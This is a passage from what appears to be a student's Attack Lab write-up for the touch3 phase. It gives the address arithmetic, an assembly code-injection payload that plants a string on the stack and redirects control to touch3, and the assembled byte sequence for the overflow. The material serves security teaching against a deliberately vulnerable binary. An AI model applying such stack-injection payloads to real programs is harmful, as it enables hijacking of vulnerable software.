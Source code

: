 0x5561dc78 to little endian
(low address):  78 dc 61 55

3. calculate the address of string
get the address for store the injected string in the stack， put string at %rsp + 0x8
%rsp + 0x8 = 0x5561dca0 + 0x8 = 0x5561dca8
%rsp + 0x4 = 0x5561dca0 + 0x4 = 0x5561dca4

4. build exploit3.s with the inject string and target address

```assembly
movl  $0x61663739, 0x2c(%rsp)  # inject 4 chars as string to the address on address + 0x4 
movl  $0x39623935, 0x28(%rsp)  # inject next 4 chars as string to the address on address + 0x0 
movb  $0,  0x30(%rsp)            # Null terminator address + 0x8 
movq  $0x5561dca0 , %rdi    # set the register %rdi to the address of injected string                   
pushq $0x4018fa          # push the address of the touch3 to stack to set return address 
ret                      # when return, go to the address of the touch3 by pop from the stack
```


5. then convert exploit3.s to hex-formatted byte sequencenc then to bytes.

```shell
# assemble the assemble file(text) to object file(binary) exploit2.o
unix> gcc -c exploit3.s

# disassemble the object file(binary) to 
unix> objdump -d exploit3.o > exploit3.d


exploit3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	c7 44 24 2c 39 37 66 	movl   $0x61663739,0x2c(%rsp)
   7:	61 
   8:	c7 44 24 28 35 39 62 	movl   $0x39623935,0x28(%rsp)
   f:	39 
  10:	c6 44 24 30 00       	movb   $0x0,0x30(%rsp)
  15:	48 c7 c7 a0 dc 61 55 	mov    $0x5561dca0,%rdi
  1c:	68 fa 18 40 00       	pushq  $0x4018fa
  21:	c3                   	retq   


# get hex-formatted byte sequencenc as instruction sequence from disassemble file exploit3.d
(低地址)
c7 44 24 2c 39 37 66 61 
c7 44 24 28 35 39 62 39 
c6 44 24 30 00 48 c7 c7 
a0 dc 61 55 68 fa 18 40 
00 c3
#（高地址）


```
